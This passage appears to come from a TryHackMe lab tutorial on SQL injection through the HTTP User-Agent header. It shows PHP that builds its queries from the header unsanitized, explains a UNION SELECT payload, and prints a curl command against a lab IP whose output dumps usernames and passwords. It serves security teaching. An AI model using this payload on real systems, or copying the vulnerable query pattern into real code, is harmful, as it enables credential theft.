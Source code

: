 Here is the server-side code that inserts the logs.

```php
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$insert_sql = "INSERT INTO logs (user_Agent) VALUES ('$userAgent')";
if ($conn->query($insert_sql) === TRUE) {
    echo "<p class='text-green-500'>New logs inserted successfully</p>";
} else {
    echo "<p class='text-red-500'>Error: " . $conn->error . " (Error Code: " . $conn->errno . ")</p>";
}

$sql = "SELECT * FROM logs WHERE user_Agent = '$userAgent'";
..
... 
```

The User-Agent value is inserted into the logs table using an INSERT SQL statement. If the insertion is successful, a success message is displayed. An error message with details is shown if there is an error during insertion.

![dashboard for viewing logs](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716115666836)

**Preparing the Payload**

We will prepare and inject an SQL payload into the User-Agent header to demonstrate how SQL injection can be exploited through HTTP headers. Our target payload will be ' UNION SELECT username, password FROM user; #. This payload is designed to:

* **Close the Existing String Literal**: The initial single quote (`'`) is used to close the existing string literal in the SQL query.
* **Inject a UNION SELECT Statement**: The `UNION SELECT username, password FROM user;` part of the payload is used to retrieve the username and password columns from the user table.
* **Comment Out the Rest of the Query**: The `#` character is used to comment out the remainder of the SQL query, ensuring that any subsequent SQL code is ignored.

We need to send this payload as part of the User-Agent header in our HTTP request to inject this payload, which could be done using tools like **Burp Suite** or **cURL**. We will use the curl command-line tool to send an HTTP request with a custom User-Agent header. Open a Terminal and access your command line interface. Use the following command to send the request with the custom `User-Agent` header:

```bash
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.223.104/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
```